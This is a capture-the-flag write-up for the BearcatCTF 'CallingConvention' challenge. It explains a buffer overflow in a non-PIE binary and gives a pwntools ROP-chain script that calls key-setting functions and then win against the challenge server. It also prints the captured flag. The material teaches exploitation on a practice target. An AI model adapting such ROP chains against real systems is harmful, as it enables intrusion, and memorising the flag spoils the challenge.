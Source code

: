 # CallingConvention
Note: We solved this very early and the files might have changed.

To solve this you can read the source code to see the win conditions. We need to call win but before that we need to have certain conditions met:
```c
if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
```
To dot hat we can call the functions that set keys because `PIE` is not enabled and we have a buffer overflow. No PIE means we know function address' and buffer overflow allows us to hijack control flow.

Solve script:
```python
from pwn import *

bin = "./calling_convention"
elf = context.binary = ELF(bin)
#p = process(bin)
p = remote('chal.bearcatctf.io', 39440)

offset = 16
payload = b'A'*offset 
#set key3
#set key1
payload += p64(0x000000000040101a) # ret gadget
payload += p64(elf.sym['food']) + p64(elf.sym['set_key1'])
payload += p64(elf.sym['number3']) + p64(elf.sym['ahhhhhhhh']) + p64(elf.sym['win'])
p.sendline(payload)
p.interactive()
#BCCTF{R0p_Ch41ns_1b01c1c3}
```